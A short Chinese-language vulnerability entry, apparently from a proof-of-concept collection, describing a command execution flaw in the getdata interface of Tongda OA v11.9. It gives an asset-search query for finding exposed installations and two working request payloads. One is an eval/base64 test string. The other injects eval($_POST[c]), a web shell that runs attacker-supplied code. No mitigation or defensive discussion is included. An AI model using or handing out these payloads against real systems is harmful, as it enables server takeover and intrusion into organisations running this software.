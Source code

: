 # 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

```
通达OA v11.9
```

## 网络测绘

```
app="通达OA网络智能办公系统"
```

## 漏洞复现

登录页面

![image-20221008102828374](./images/202210081028459.png)

验证POC

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![image-20221008102844264](./images/202210081028320.png)

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```